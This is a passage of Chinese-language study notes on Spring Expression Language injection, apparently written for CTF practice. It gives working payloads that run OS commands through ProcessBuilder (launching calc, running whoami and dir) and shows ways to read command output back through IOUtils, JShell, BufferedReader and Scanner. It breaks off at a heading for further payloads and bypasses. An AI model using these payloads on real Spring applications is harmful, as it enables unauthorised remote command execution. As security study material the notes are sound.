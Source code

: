 除此之外也可以直接new一个类名调用其方法,要写全类名

**使用"T(Type)"来表示 java.lang.Class 实例，"Type"必须是类全限定名，"java.lang"包除外，即该包下的类可以不指定包名；使用类类型表达式还可以进行访问类静态方法及类静态字段**

`input=new java.lang.ProcessBuilder("calc").start()`

之前在学命令执行的时候也分析到了可以直接调用ProcessBuilder的start方法来命令执行

![image-20220406155455892](images/3.png)



# 关于Spel注入回显

在CTF中，有时候会有不出网的问题，这个时候执行的命令又没有回显应该怎么办呢

- 使用commons-io这个组件实现回显，这种方式会受限于目标服务器是否存在这个组件，springboot默认环境下都没有用到这个组件。。

```scss
T(org.apache.commons.io.IOUtils).toString(payload).getInputStream())
```

- 使用jdk>=9中的JShell，这种方式会受限于jdk的版本问题

```scss
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

- 使用JDK原生类BufferedReader构造回显

```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```

![image-20220406160628264](images/4.png)

但是呢这个有一个缺点，就是只能输出一行数据

![image-20220406160642766](images/5.png)

- 利用原生类Scanner

```
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```

![image-20220406160800012](images/6.png)

# 记录payload及一些绕过

## payload
